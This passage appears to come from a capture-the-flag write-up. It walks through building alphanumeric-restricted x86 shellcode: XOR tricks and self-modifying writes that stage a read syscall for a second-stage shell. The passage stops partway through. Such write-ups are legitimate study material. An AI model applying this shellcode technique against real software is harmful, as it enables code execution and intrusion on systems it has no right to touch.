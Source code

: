 Now to build our shellcode. This portion of the writeup comes from the writeup that this is based off. The plan is to send shellcode that will give us a read syscall, which we will then scan in shellcode without the note restriction that will actually give us a shell. For that we need the `eax` register to have the value `3`, the `edx` register will need the amount of bytes to read, and the `ecx` register will need to have a pointer to where we are scanning in data. In addition to that we will need `ebx` to be set equal to `0x0` to specify that we are reading in through `stdin`. Since we have several pointers in registers that point to the stack (`esp`, `esi`, `edi`) what we can do is use our limited instructions to write to the stack, to setup a stack for a `popad` call, which will pop the values off of the stack into 7 different registers including the ones we need. To have the `popad` call (since it's opcode isn't allowed), we will change the value of the `eax` register to point to somewhere further down in the rwx segment that is being executed, and write to it's dereferenced value to essentially just write in the instruction while it's running.

Starting off, we will xor the `eax` register by `0x4f4f4f4f`. When `esp` get's increased by `0x30` it points to a string which starts with a lot of `O`s, and get's moved into the `esi` register. We will just xor `eax` by `esi+0x30` which will set `eax` equal to `0x4f4f4f4f`: 

```
; A3 F0
inc ecx ; A
xor    eax, DWORD PTR [esi+0x30] ; 3F0
```

Next we will clear out some space in the string pointed to by `esp`, `esi`, and `edi`. We can do this by just xoring the dereferenced value of `edi+0x30` with `eax`, and then incrementing the `edi` register by four in between xors. This will allow us to clear out space in the string with the opcode restriction, which we will use to setup the `popad` call (5 four byte segments, one for each register and one to make a pointer). Also for the fifth write, we will xor over four `0x2d` so we will end up with `0x62` which we will use for the address of the `read` syscall:
```
; A1 G0 first xor
inc ecx ; A
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 second xor write
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 third xor write
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 fourth xor write
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0

; G6 G6 G6 G1 G0 fifth xor write
inc edi ; G
ss inc edi ; 6G
ss inc edi ; 6G
ss inc edi ; 6G
xor    DWORD PTR [edi+0x30],eax ; 1G0
```
